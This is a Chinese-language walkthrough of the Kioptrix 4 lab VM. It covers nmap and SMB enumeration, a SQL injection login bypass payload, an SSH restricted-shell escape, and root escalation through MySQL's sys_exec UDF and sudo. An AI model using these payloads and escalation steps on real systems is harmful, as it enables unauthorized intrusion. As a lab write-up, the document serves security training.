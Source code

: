 ### 端口扫描

```bash
# Nmap 7.94SVN scan initiated Tue Nov  5 10:24:55 2024 as: nmap -sT --min-rate 10000 -p- -oN nmapscan/port_scan 192.168.217.142
Nmap scan report for 192.168.217.142
Host is up (0.00093s latency).
Not shown: 39528 closed tcp ports (conn-refused), 26003 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:5D:77:E0 (VMware)
```

```bash
# Nmap 7.94SVN scan initiated Tue Nov  5 10:25:31 2024 as: nmap -sT -sV -sC -O -p22,80,139,445 -v -oN nmapscan/detail_scan 192.168.217.142
Nmap scan report for 192.168.217.142
Host is up (0.0013s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 00:0C:29:5D:77:E0 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Uptime guess: 497.101 days (since Tue Jun 27 09:00:18 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=200 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2024-11-05T18:25:44-05:00
|_clock-skew: mean: 10h29m59s, deviation: 3h32m07s, median: 7h59m59s
| nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX4<00>        Flags: <unique><active>
|   KIOPTRIX4<03>        Flags: <unique><active>
|   KIOPTRIX4<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|_  WORKGROUP<00>        Flags: <group><active>
```

### 扫描smb漏洞

```bash
nmap -p 139 --script=*smb* -oN nmapscan/smb_scan 192.168.217.142
```

```
|_smb-mbenum: ERROR: Script execution failed (use -d to debug)
| smb-enum-users: 
|   KIOPTRIX4\john (RID: 3002)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\loneferret (RID: 3000)
|     Full name:   loneferret,,,
|     Flags:       Normal user account
|   KIOPTRIX4\nobody (RID: 501)
|     Full name:   nobody
|     Flags:       Normal user account
|   KIOPTRIX4\robert (RID: 3004)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\root (RID: 1000)
|     Full name:   root
|_    Flags:       Normal user account
```

可以找到几个用户：`john、loneferret、robert、root`

利用`enum4linux`,同样可以得到

```
enum4linux -U 192.168.217.142
```

![image-20241107114520150](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241107114520150.png)

### web端渗透

![image-20241107114637421](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241107114637421.png)

Password处有万能密码

`' or 1=1--+'`

登录john，robert用户

![image-20241107115243130](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241107115243130.png)

![image-20241107115506386](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241107115506386.png)

拿到密码

### SSH登录

现在又两对凭据，尝试进行SSH登录

```bash
ssh robert@192.168.217.142
```

![image-20241107115731217](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241107115731217.png)

`LigGoat Shell `是一个受限的shell环境，只可以执行几个命令

如何绕过 `LigGoat Shell` 的限制？

> 利用`echo`命令执行系统命令：在某些受限的shell环境中，`echo`命令可能被允许执行。可以通过`echo`命令配合其他技巧来执行系统命令，例如`echo os.system('/bin/bash')`
>
> https://www.aldeid.com/wiki/Lshell

拿到一个完整的shell，接着就是提权

### 提权

```bash
robert@Kioptrix4:~$ uname -a
Linux Kioptrix4 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
robert@Kioptrix4:~$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04.3 LTS"
```

这里我没有找到可以提权的方案

### UDF提权

去看web目录下收集信息

```bash
robert@Kioptrix4:/var/www$ cat checklogin.php 
<?php
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```

这里root用户的密码为空

```bash
robert@Kioptrix4:/var/www$ mysql -uroot
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 49
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost | 
+----------------+
1 row in set (0.00 sec)
```

查看用户定义函数（UDF）信息

```mysql
mysql> select * from mysql.func;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)
```

添加进`admin`组

```
usermod -a -G admin john
```

移除：`usermod -G "" john`

```mysql
mysql> select sys_exec('usermod -a -G admin john');
+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 | 
+--------------------------------------+
1 row in set (0.04 sec)
```

```bash
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=115(admin),1001(john)
john@Kioptrix4:~$ sudo -l
[sudo] password for john: 
User john may run the following commands on this host:
    (ALL) ALL
john@Kioptrix4:~$ sudo bash
root@Kioptrix4:~# id
uid=0(root) gid=0(root) groups=0(root)
```

成功拿到root

> [MySQL提权之UDF提权](https://blog.csdn.net/2301_76227305/article/details/139545193)
>
> [Kioptrix Level 1.3 (#4) Walkthrough](https://www.doyler.net/security-not-included/kioptrix-level-1-3-4-walkthrough)